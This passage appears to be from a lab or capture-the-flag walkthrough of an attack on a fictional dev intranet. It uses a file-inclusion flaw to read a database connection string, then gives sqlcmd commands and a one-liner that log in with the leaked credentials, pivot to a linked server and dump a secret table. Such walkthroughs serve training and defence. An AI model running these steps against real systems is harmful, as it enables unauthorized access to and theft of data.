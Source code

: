- **Extracting Sensitive Configuration Data**:
  Retrieve database connection string from `c:\inetpub\DevIntranet\appsettings.json` via an LFI present in the Document Management page in the Dev Intranet. This file, left insecurely accessible, demonstrates a common security oversight involving sensitive data exposure.

### Database Exfiltration

Utilize the exposed database credentials to connect using a legitimate account. Without escalating privileges or performing SQL injection, list linked servers and dump critical database contents. This demonstrates how legitimate access can be leveraged to achieve significant impacts, reflecting the high stakes involved even with standard user permissions.

Download `sqlcmd` from [here](https://github.com/microsoft/go-sqlcmd/releases/download/v1.8.0/sqlcmd-windows-amd64.zip).

```bash
# Connect to the database using sqlcmd
sqlcmd -S db01 -U public_db_reader -P 'threewordphrase1!' -W

# List current databases
SELECT name from sys.databases;
GO

# List tables in the 'public_research' database
select * from public_research.information_schema.tables;
GO

# Query the 'ResearchPapers' table in the 'public_research' database
select * from public_research.dbo.researchpapers;
GO

# Check for linked servers as no useful data is present
SELECT * FROM sys.servers WHERE is_linked = 1;
GO

# Query linked server databases
SELECT name FROM db02.master.sys.databases;
GO

# List tables in the _5G_enzyme_experimental database on a linked server
select * from db02._5G_enzyme_experimental.information_schema.tables;
go

# Query the ExperimentalEnzymes table on the db on the linked server
SELECT * FROM DB02._5G_enzyme_experimental.dbo.ExperimentalEnzymes;
GO
```

- Full one-liner to dump secret db: `sqlcmd -S db01 -U public_db_reader -P 'threewordphrase1!' -Q "select * from openquery(db02, 'select * from _5G_enzyme_experimental.dbo.experimentalenzymes');" -W`

